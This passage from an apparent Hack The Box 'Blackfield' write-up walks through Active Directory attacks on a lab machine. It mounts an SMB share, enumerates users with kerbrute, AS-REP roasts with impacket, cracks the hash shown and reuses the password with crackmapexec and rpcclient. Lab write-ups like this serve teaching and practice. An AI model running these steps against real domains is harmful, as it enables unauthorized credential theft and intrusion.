 ### IPC
Nothing
### profiles
A lot of user folders.
mount the drive.
```bash
sudo mount -t cifs '//10.10.10.192/profiles$' /mnt
```

## Check valid usernames with kerbrute
```bash
/opt/kerbrute userenum --dc 10.10.10.192 -d blackfield -o valid-users.lst users.lst
grep VALID valid-users.lst | awk '{print $7}'| awk -F\@ '{print $1}'
```
Valid users
```
audit2020
support
svc_backup
```

## ASREP on valid users.
```bash
python3 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.10.192 -no-pass -usersfile valid-users.lst blackfield/
```
The user support returns a hash.
```hash
$krb5asrep$23$support@BLACKFIELD:48fd6f34ac841894f8433c16d017b1d2$a06145156aeef6799739d1de9a24ad628af87ebf8371643bc8f705d4d7a1fbda5cba031fe69521f32a03bd0830e0c3a2038b25dbd40779a797f10f330a1c22c8156c946d5de6c5c48103e87ce1c45a9ee7bcfa4ff8d977200cdcb85ca6641a69bc458045d6ba27125295d75d2bba6b37e464a82874b24f92b849cf8ed1bfe107e4b0cc2f58de652e9f098fc5b045a3017e12b0cf007ed675b924f37c9529ad504e1943f29ff3fc00f688faf5a015c544d2553c47606b874cac9ef4889824899a711029d56772a471f45e9f9bf4c57f49c03c0531b8c8a6b6fcad368596fc290bc709465f6ee43297d460de868924
```
Crack with hashcat:
`#00^BlackKnight`

# Enumeration with valid account
## Check SMB with new creds
```bash
crackmapexec smb 10.10.10.192 --shares -u 'support' -p '#00^BlackKnight'
```
User can read netlogon and sysvol.

## login to RPC
```bash
rpcclient -U support 10.10.10.192
```
Get valid users.
```rpc
enumdomusers
```
Get usernames:
```bash
cat users.rcp | awk -F[ '{print $2}'|awk -F] '{print $1}' > tmp
```
Check for ASREP again. No new hits
